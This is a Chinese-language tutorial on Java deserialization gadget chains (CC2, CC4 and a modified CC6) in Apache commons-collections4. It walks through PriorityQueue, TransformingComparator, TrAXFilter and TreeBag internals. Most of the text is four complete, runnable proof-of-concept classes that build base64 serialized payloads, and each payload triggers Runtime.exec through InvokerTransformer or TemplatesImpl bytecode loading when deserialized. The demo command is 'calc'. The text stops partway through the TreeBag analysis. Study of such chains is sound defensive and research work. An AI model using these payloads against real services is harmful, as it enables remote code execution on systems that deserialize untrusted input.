前言
CC2和CC4都是基于org.apache.commons:commons-collections4上的反序列化链子
以前的POC修改
在这个版本中，cc包上面的LazyMap类的decorate方法没有了，但是也只是把decorate换成了lazyMap

尝试将CC6链的POC中的decorate方法换成lazyMap方法
package ysoserial.vulndemo;
/**
* 暂时对JDK没有限制，在高版本的JDK中也可以成功利用
*/
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class CC6_POC {
public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
//仿照ysoserial中的写法，防止在本地调试的时候触发命令
Transformer[] faketransformers = new Transformer[] {new ConstantTransformer(1)};
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"}),
new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(faketransformers);
Map innerMap = new HashMap();
Map outMap = LazyMap.lazyMap(innerMap, transformerChain);
//实例化
TiedMapEntry tme = new TiedMapEntry(outMap, "key");
Map expMap = new HashMap();
//将其作为key键传入
expMap.put(tme, "value");
//remove
outMap.remove("key");
//传入利用链
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);
//序列化
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
byte[] bytes = barr.toByteArray();
String encode =Base64.getEncoder().encodeToString(bytes);
//输出序列化字符串
System.out.println(encode);
//反序列化
byte[] decode = Base64.getDecoder().decode(encode);
System.out.println(decode);
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(decode));
Object o = ois.readObject();
}
}
成功弹出了计算器，说明以前的链子在CC4.0版本中稍微修改一下就可以使用了，(其他链子自己可以试试，我没试过)
CC2链子
PriorityQueue
这个类就是这条链子的入口位置，对比CC4.0版本的包和以前的版本包，这个类在之前没有实现Serializable接口，不能进行序列化，但是在CC4.0版本包中，实现了这个接口，可以进行序列化
PriorityQueue 优先级队列是基于优先级堆（a priority heap）的一种特殊队列，他给每个元素定义“优先级”，这样取出数据的时候会按照优先级来取。默认情况下，优先级队列会根据自然顺序对元素进行排序。
java.util.PriorityQueue#readObject方法中

将他的所有元素反序列化到queue中，调用了heapify方法，跟进一下

这里需要size右移一位之后减去一个1之后需要满足大于等于0才会调用siftDown方法
size的初始值为0，所以我们最少需要添加2个元素才能满足条件

好的，接下来进入siftDown方法

在comparator不为null的时候调用siftDownUsingComparator

之后会调用comparator的compare方法进行比较
TransformingComparator
在这个类的compare方法中，就调用了transform方法进行转换

同样也可以发现他的构造方法
可以传入一个Transformer
POC编写
POC1
既然这里调用了transformer方法，我们就可以使用ChainedTransformer结合InvokerTransformer的方法构造
package ysoserial.vulndemo;
/*
Gadget chain:
ObjectInputStream.readObject()
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
TransformingComparator.compare()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
*/
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
public class CC2 {
public static void main(String[] args) throws Exception{
//创建 ChainedTransformer实例
Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
new Class[] { String.class, Class[].class },
new Object[] { "getRuntime", new Class[0] }),
new InvokerTransformer("invoke",
new Class[] { Object.class, Object[].class },
new Object[] { null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class },
new String[] { "calc" }),
};
ChainedTransformer chain = new ChainedTransformer(faketransformers);
//创建TranformingComparator 实例
Comparator comparator = new TransformingComparator(chain);
//创建 PriorityQueue 实例
//readobject 入口
PriorityQueue priorityQueue = new PriorityQueue(2,comparator);
priorityQueue.add(1);
priorityQueue.add(2);
Field field = chain.getClass().getDeclaredField("iTransformers");
field.setAccessible(true);
field.set(chain,transformers);
//序列化
ByteArrayOutputStream baor = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baor);
oos.writeObject(priorityQueue);
oos.close();
System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
//反序列化
ByteArrayInputStream bais = new ByteArrayInputStream(baor.toByteArray());
ObjectInputStream ois = new ObjectInputStream(bais);
Object o = ois.readObject();
baor.close();
}
}
在构造PriorityQueue对象的时候第一个参数是有要求的，跟进一下

这里的初始容量需要大于等于1才行，不然会爆出IllegalArgumentException错误
POC2
上面使用了数组的方法，如果不能使用数组该怎么办呢，在shiro反序列化中就不能使用数组执行，提到过使用TemplatesImpl.newTransformer的方式执行
ysoserial中的CC2链就是使用的这种方式执行任意命令
package ysoserial.vulndemo;
/**
* Gadget chain:
* ObjectInputStream.readObject()
* PriorityQueue.readObject()
* PriorityQueue.heapify()
* PriorityQueue.siftDown()
* PriorityQueue.siftDownUsingComparator()
* TransformingComparator.compare()
* InvokerTransformer.transform()
* Method.invoke()
* TemplatesImpl.newTransformer()
* TemplatesImpl.getTransletInstance()
* Runtime.exec()
*
*/
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;
public class CC2_plus {
public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
Field field = obj.getClass().getDeclaredField(fieldname);
field.setAccessible(true);
field.set(obj,value);
}
public static void main(String[] args)throws Exception {
//创建TemplatesImpl对象加载字节码
byte[] code = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode();
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj,"_name","jiang");
setFieldValue(obj,"_class",null);
setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
setFieldValue(obj,"_bytecodes",new byte[][]{code});
//创建TranformingComparator 实例
Transformer transformer = new InvokerTransformer("toString",null,null);
Comparator comparator = new TransformingComparator(transformer);
//创建 PriorityQueue 实例
//readobject 入口
PriorityQueue priorityQueue = new PriorityQueue(2,comparator);
priorityQueue.add(obj);
priorityQueue.add(obj);
//修改调用方法为newTransformer，加载恶意类。
setFieldValue(transformer,"iMethodName","newTransformer");
ByteArrayOutputStream baor = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baor);
oos.writeObject(priorityQueue);
oos.close();
System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
//反序列化
ByteArrayInputStream bais = new ByteArrayInputStream(baor.toByteArray());
ObjectInputStream ois = new ObjectInputStream(bais);
Object o = ois.readObject();
baor.close();
}
}
通过InvokerTransformer直接调用了动态加载bytecodes的TemplatesImpl类的newTransformer方法，进而调用了transformer，漏洞触发
你会觉得是不是缺少个ConstantTransformer得到对应对象的类型(我反正有过)
其实在TransformingComparator#compare方法中调用transformer的时候将这个类传入了transformer，这步就类似起到了ConstantTransformer的作用，所以这里向PriorityQueue中添加的是TemplatesImpl类
CC4链子
ysoserial中的链子
在ysoserial就是CC3+CC2的结合，它不再使用InvokerTransformer，而是选择InstantiateTransformer来代替
在CC3中存在一个TrAXFilter

它可以直接传入一个Templates然后直接调用他的newTransformer方法，之后我们使用InstantiateTransformer来进行实例化他触发newTransformer方法
POC
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;
public class CC4 {
public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
Field field = obj.getClass().getDeclaredField(fieldname);
field.setAccessible(true);
field.set(obj,value);
}
public static void main(String[] args) throws Exception {
//创建TemplatesImpl对象加载字节码
byte[] code = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode();
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj,"_name","RoboTerh");
setFieldValue(obj,"_class",null);
setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
setFieldValue(obj,"_bytecodes",new byte[][]{code});
//创建 ChainedTransformer实例
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[]{Templates.class},new Object[]{obj}),
};
ChainedTransformer chain = new ChainedTransformer(transformers);
//创建TranformingComparator 实例
Comparator comparator = new TransformingComparator(chain);
PriorityQueue priorityQueue = new PriorityQueue(2);
priorityQueue.add(1);
priorityQueue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(priorityQueue, comparator);
//序列化
ByteArrayOutputStream baor = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baor);
oos.writeObject(priorityQueue);
oos.close();
System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
//反序列化
ByteArrayInputStream bais = new ByteArrayInputStream(baor.toByteArray());
ObjectInputStream ois = new ObjectInputStream(bais);
Object o = ois.readObject();
baor.close();
}
}
TreeBag & TreeMap
Bag 接口继承自 Collection 接口，定义了一个集合，该集合会记录对象在集合中出现的次数。它有一个子接口 SortedBag，定义了一种可以对其唯一不重复成员排序的 Bag 类型。
TreeBag 是对 SortedBag 的一个标准实现。TreeBag 使用 TreeMap 来储存数据，并使用指定 Comparator 来进行排序。
TreeBag 继承自 AbstractMapBag，实现了 SortedBag 接口。初始化 TreeBag 时，会创建一个新的 TreeMap 储存在成员变量 map 里，而排序使用的 Comparator 则直接储存在 TreeMap 中。
跟进org.apache.commons.collections4.bag.TreeBag#readObject方法

在反序列化的时候，会将反序列化出来的Comparator对象传入TreeMap进行处理
我们跟进他的构造函数

可以传入一个Comparator对象，将它传入TreeMap中

通过这个TreeMap来存储对象
然后回到readObject方法中，接下来将调用父类的doReadObject方法

调用了TreeMap的put方法，跟进
